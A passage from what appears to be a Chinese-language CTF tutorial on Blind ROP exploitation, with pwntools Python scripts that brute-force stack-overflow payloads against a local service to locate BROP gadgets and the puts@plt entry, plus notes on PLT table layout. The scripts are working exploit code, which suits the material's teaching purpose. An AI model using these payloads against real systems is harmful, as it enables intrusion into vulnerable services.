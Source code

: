 		
		def check_brop_gadget(length, addr):
		    try:
		        sh = remote('127.0.0.1', 9999)
		        sh.recvuntil('password?\n')
		        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
		        sh.sendline(payload)
		        content = sh.recv()
		        sh.close()
		        return False
		    except Exception:
		        sh.close()
		        return True
		
		
		##length = getbufferflow_length()
		length = 72
		##get_stop_addr(length)
		stop_gadget = 0x4006b6
		addr = 0x400740
		while 1:
		    print hex(addr)
		    if get_brop_gadget(length, stop_gadget, addr):
		        print 'possible brop gadget: 0x%x' % addr
		        if check_brop_gadget(length, addr):
		            print 'success brop gadget: 0x%x' % addr
		            break
		    addr += 1
		```

##### 确认plt表

 程序的 plt 表具有比较规整的结构，每一个 plt 表项都是 16 字节。而且，在每一个表项的 6 字节偏移处，是该表项对应的函数的解析路径，即程序最初执行该函数的时候，会执行该路径对函数的 got 地址进行解析。 

 对于大多数 plt 调用来说，一般都不容易崩溃，即使是使用了比较奇怪的参数。所以说，如果我们发现了一系列的长度为 16 的没有使得程序崩溃的代码段，那么我们有一定的理由相信我们遇到了 plt 表。除此之外，我们还可以通过前后偏移 6 字节，来判断我们是处于 plt 表项中间还是说处于开头。 

#### Blind ROP：

找输出函数，利用输出函数puts或者write来输出文件内部的信息。下面举例关于puts的BROP。

根据payload：

```python
payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

确定**puts_plt**：

```python
def get_puts_addr(length, rdi_ret, stop_gadget):
    addr = 0x400000
    while 1:
        print hex(addr)
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(
            addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith('\x7fELF'):
                print 'find puts@plt addr: 0x%x' % addr
                return addr
            sh.close()
            addr += 1
        except Exception:
            sh.close()
```